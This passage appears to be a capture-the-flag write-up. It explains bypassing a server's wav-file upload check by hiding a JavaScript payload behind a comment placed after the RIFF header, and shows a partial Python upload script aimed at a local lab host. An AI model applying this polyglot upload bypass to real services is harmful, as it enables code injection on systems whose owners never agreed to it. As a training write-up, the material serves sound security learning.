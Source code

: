 So to understand it better we must refer to the golang file. After a lot of banging heads into walls (cuz who have the time to understand golang :confounded: ), it appears to create a wav file and send it to the server. But we don't want audio data, we want to send javascript code, so we did what any person would do these days and ask openAI's chatGPT to convert this code into python code. 

At this point can understand it better, and understand it better and edit it to our liking.

the above route calls this function

```js 
const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&  
      path.extname(file.originalname) === ".wav"
    ) {
      cb(null, true);
    } else {
      return cb(null, false);
    }
  },
});
``` 
which forces us to upload the file as a wav file which isn't a problem as we only care about the content.

but the content of the file will contain binary data that will cause errors when calling the file. That's when we should use a multi-line comment to comment out the binary data, and luckely for us, the regex in the function above doesn't explicitly look at where this sequence of bytes is located.

As it turns out this sequence ```/52494646[a-z0-9]{8}57415645/g``` is just the RIFF WAV file header, so the server is conferming that that header is present, but doesn't check where.

So our final file to upload must look something like that:

```
/*  binary
    data
    here
/*(our JS payload)
```
Here's a python script that automates this whole process

```python
import requests
import sounddevice as sd
import soundfile as sf
import time
import sys

api_url = "http:/127.0.0.1:1337"
identifier = sys.argv[1]
token = sys.argv[2]

def recording_routine(api_url, identifier, token):
    upload_url = f"{api_url}/agents/upload/{identifier}/{token}"
    frames_per_buffer = 64
    channels = 1
    duration = 5  
    file_path = "rec3.wav"

    with sf.SoundFile(file_path, mode="x", samplerate=44100, channels=channels) as file:
        start_time = time.monotonic()
        while True:
            now = time.monotonic()
            if now - start_time > duration:
                break
```